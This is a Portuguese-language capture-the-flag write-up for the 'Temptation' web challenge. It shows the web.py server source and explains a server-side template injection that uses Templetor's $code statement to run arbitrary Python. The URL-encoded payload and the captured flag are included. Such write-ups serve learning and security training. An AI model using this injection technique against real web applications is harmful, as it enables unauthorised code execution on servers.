



# Temptation

*The attempted attempt to tempt the untempted into a tempting but contemptible scheme was an untempting temptation that exemplified not only contempt but also a preemptive exemption from any redemptive attempts.*

- *Autor do writeup: [@jackskelt](https://github.com/jackskelt)*
- *Autor do desafio: [@gehaxelt](https://github.com/gehaxelt)*

> Você pode acessar os arquivos do desafio no nosso repositório
> <https://github.com/HawkSecUnifei/Writeups>


Ao acessar o site, nos deparamos com um campo de input e a pergunta: "Qual a sua tentação?"




Ao digitar qualquer coisa e enviar, o site nos retorna a resposta: "Too tempted!"


Ao inspecionar o código da página, vemos um comentário



Assim podemos acessar o código do backend ao mandar uma requisição para `/?source=1`



```py
import web
from web import form
web.config.debug = False
urls = (
  '/', 'index'
)
app = web.application(urls, locals())
render = web.template.render('templates/')
FLAG = open("/tmp/flag.txt").read()

temptation_Form = form.Form(
    form.Password("temptation", description="What is your temptation?"),
    form.Button("submit", type="submit", description="Submit")
)

class index:
    def GET(self):
        try:
            i = web.input()
            if i.source:
                return open(__file__).read()
        except Exception as e:
            pass
        f = temptation_Form()
        return render.index(f)

    def POST(self):
        f = temptation_Form()
        if not f.validates():
            return render.index(f)
        i = web.input()
        temptation = i.temptation
        if 'flag' in temptation.lower():
            return "Too tempted!"
        try:
            temptation = web.template.Template(f"Your temptation is: {temptation}")()
        except Exception as  e:
            return "Too tempted!"
        if str(temptation) == "FLAG":
            return FLAG
        else:
            return "Too tempted!"
application = app.wsgifunc()
if __name__ == "__main__":
    app.run()
```



O código é um servidor `web.py`. Não podemos colocar o texto "flag" na entrada, que é adicionada a um template, de forma insegura



```py
temptation = web.template.Template(f"Your temptation is: {temptation}")()
```



Para obtermos a flag, precisamos que o texto resultado do template seja `"FLAG"`. O sistema de template do `web.py` é chamado [Templetor](https://webpy.org/docs/0.3/templetor), e, como a nossa entrada está sendo passada de forma insegura, podemos aproveitar de funcionalidades do sistema de templates para a execução de código. Nesse caso, podemos utilizar o statement [`$code`](https://webpy.org/docs/0.3/templetor#code) para execução arbitrária de código python. Nossa payload fica dessa maneira:



```py
$code:
    self = 'F''LAG'
```



Para enviar, temos que nos atentar em algumas coisas:
- Python é uma linguagem orientada a identação, então para o bloco funcionar, precisamos de uma quebra de linha após o `$code` e um `\t` de espaçamento antes do `self`
- O statement `$code` só funciona se for o início da linha, então precisamos de uma quebra de linha inicial, pois o início da primeira linha é `"Your temptation is: "`.

Dito isso, teremos basicamente o código a seguir:



```py
\n
$code:\n
\tself = 'F''LAG'
```



Agora temos que fazer um URL encoding para passar como parâmetro. Temos que o `\n` é `%0a` e o `\t` é `%09`, ficando com a seguinte payload
```
%0a$code:%0a%09self%20=%20'F''LAG'
```

Enviando como POST, recebemos a flag
```
ENO{T3M_Pl4T_3S_4r3_S3cUre!!}
```

